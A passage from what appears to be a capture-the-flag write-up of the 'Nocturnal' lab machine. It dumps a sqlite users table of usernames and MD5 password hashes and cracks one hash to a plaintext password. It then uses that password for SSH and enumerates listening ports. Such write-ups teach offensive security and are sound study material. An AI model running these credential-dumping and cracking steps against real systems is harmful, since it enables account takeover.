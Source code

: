 ```terminal
```

We got a shell!

## **Privilege Escalation**

In the login.php file we see that it connects to a sqlite3 database.

```php
$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
```

Let's enumerate the db.

```terminal
www-data@nocturnal:~/nocturnal_database$ sqlite3 nocturnal_database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
uploads  users  
sqlite> select * from users
   ...> ;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|kavi|f38cde1654b39fea2bd4f72f1ae4cdda
7|e0Al5|101ad4543a96a7fd84908fd0d802e7db
8|testytest|098f6bcd4621d373cade4e832627b4f6
9|sirius|093f966b4d14b19adf2835e4775e3aee
sqlite>
```

We got the hash of user tobias, let's crack it.

![crack](13.png)

The password is `slowmotionapocalypse`. We can now ssh to the box.

Listing listening ports we get the following:

```terminal
tobias@nocturnal:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                    
tcp        0      0 127.0.0.1:587           0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```
